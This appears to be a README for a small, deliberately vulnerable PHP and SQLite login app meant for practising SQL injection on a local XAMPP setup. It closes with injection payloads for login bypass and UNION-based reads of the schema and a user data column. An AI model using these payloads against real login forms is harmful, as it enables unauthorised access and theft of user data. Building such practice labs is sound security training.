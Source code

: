 # sqlite3login

Is a simple sqlite database and php scrypt, Intented for learning basic sqlite injection. Edit
*This video was intended for learning sqlite database. 
github: https://github.com/Eliex/sqlite3login

Needed:
-xampp: https://www.apachefriends.org/index.html
-sqlite: https://www.sqlite.org/download.html

Steps:
-install xampp and run the Apache
-open php.ini located inside C:/xampp/php
-find extension=php_sqlite3.dll
-remove the semicolon and save
-create a sub folder inside at C:/xampp/htdocs and name it "sqlite3login"
-open your compiler (or you can use notepad)
-create file and name it "index.php"
-start coding
-open your browser and type localhost/sqlite3login (to check the code)
-goto https://www.sqlite.org/download.html
-find sqlite-tools-win32-x86-3170000.zip under Precompiled Binaries for Windows
-extract and copy the sqlite3.exe file and paste it to project folder.
-open your command prompt and locate the project folder.
-type 
 "sqlite3 database.db"

  CREATE TABLE USERS (ID integer primary key, USERNAME text, PASSWORD text, INFORMATION text);

  insert into USERS (USERNAME, PASSWORD, INFORMATION) values(Jhon, global, 0987654321);

(insert another user)
 
 insert into USERS (USERNAME, PASSWORD, INFORMATION) values(Rober, pass123, 1234567890);

.mode column
.headers on

select * from USERS;

-open your broweser and type
  USERNAME: Jhon  PASSWORD: global
  USERNAME: Rober PASSWORD: pass123

(make sure to put white space at the end of parameter)

  " or 1=1 -- 
  " union select 3 -- 
  " union select sql from sqlite_master where type = 'table' -- 
  " union select INFORMATION from USERS  -- 
try
   " union select INFORMATION from USERS where ID = 1 --

